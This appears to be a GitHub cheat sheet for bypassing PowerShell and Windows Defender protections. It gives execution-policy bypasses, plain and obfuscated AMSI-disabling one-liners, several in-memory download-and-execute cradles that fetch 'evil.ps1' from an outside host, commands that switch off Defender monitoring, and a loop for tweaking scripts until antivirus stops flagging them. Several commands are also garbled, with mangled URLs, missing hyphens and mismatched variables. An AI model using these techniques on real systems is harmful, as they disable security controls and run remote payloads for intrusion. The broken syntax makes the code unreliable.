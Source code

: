 - [Tricks to Bypass protections](#tricks-to-bypass-protections)
  * [Execution Policy Protection](#execution-policy-protection)
  * [AMSI Bypass](#amsi-bypass)
  * [Memory Execution](#memory-execution)
  * [Disable Defender](#disable-defender)
  * [Invisi Shell](#invisi-shell)
  * [AMSI Trigger](#amsi-trigger)
  * [References](#references)


## Tricks to Bypass protections

### Execution Policy Protection
---
```powershell
C:> powershell -ExecutionPolicy bypass
C:> powershell -c <cmd>
C:> powershell -encodedcommand
C:> $env:PSExecutionPolicyPreference = "bypass"
```

### AMSI Bypass
---
Plain:
```powershell
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
Obfuscation:
```powershell
C:> sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### Memory Execution
---
```powershell``
C:> iex New Object Net.WebClient DownloadString('https://webserver/payload.ps1')
```
```powershell
C:> $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible ==$False;$ie.navigate('http 192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```powershell
C:> $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send;iex $h.responseText
```
```powershell
C:> $wr=[System.NET.WebRequest]::Create("http 192.168.230.1/evil.ps1")
C:> $r=$w. GetResponse()
C:> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
PSv3 Onwards:
```powershell
C:> iex (iwr 'http 192.168.230.1/evil.ps1')
```

### Disable Defender
---
Admin Privileges Required
```powershell
C:> Set-MpPreference -DisableIOAVProtection $true
C:> Set-MpPreference -Disablerealtimemonitoring $true
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
### Invisi Shell
---
From the [Tool GitHub](https://github.com/OmerYa/Invisi-Shell): _Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API._

- Having Admin Privileges:
```powershell
C:> RunWithPathAsAdmin.bat
```
- Non Admin:
```powershell
C:> RunWithRegistryNonAdmin.bat
```

### AMSI Trigger
---
To identify the part of a PowerShell script that is detected by AV. 
Simply provide the path to the script file to scan:
```powershell
C:> AmsiTrigger_x64.exe -i C: AD Tools Invoke PowerShellTcp_Detected.ps1
```
Steps:
- Scan using the tool
- Modify code snippet
- Reescan
- Repeat until we get as result "AMSI_RESULT_NOT_DETECTED" or "Blank"

### References
---
- [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/): Ways to Bypass AMSI
- [AMSI Trigger](https://github.com/RythmStick/AMSITrigger)
- [Invoke Obfuscation](https://github.com/danielbohannon/Invoke Obfuscation)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)


